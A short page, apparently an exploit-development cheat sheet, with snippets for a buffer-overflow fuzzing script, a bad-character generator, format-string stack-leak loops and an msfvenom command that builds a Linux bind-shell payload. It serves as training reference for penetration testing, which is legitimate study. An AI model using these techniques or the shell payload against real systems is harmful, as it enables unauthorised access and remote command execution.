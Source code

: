     target_host = "127.0.0.1"
    target_port = 4030
    
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect((target_host, target_port))
    
    for i in range(1,2000) :
    
        fuzz = "A" * i
        client.send(fuzz)
        response = client.recv(4096)
    
        print i
    #    client.send("x\n")
    #    response = client.recv(4096)
    
        time.sleep(0.1)
    
    client.send("x\n")
    response = client.recv(4096)
    
    print response
    

### Bad Characters :

    #!/usr/bin/env python
    
    shellcode = ''
    for i in range(1,256):
        shellcode += chr(i)
    
    print shellcode
    

### Format String :

Shows 20 dwords from the stack :

    for(( i=1; i < 20; i++)); do echo -n "$i " && ./fs "%$i\$x"; done
    

Use “%s” to retrieve strings instead :

    for(( i=1; i < 20; i++)); do echo -n "$i " && ./fs "%$i\$s"; done
    

MSFVenom :

    msfvenom -p linux/x86/shell_bind_tcp -b '\x00\x09\x10\x13' LPORT=4450 -f python
    

Unclassified
============

### JS Prompt :
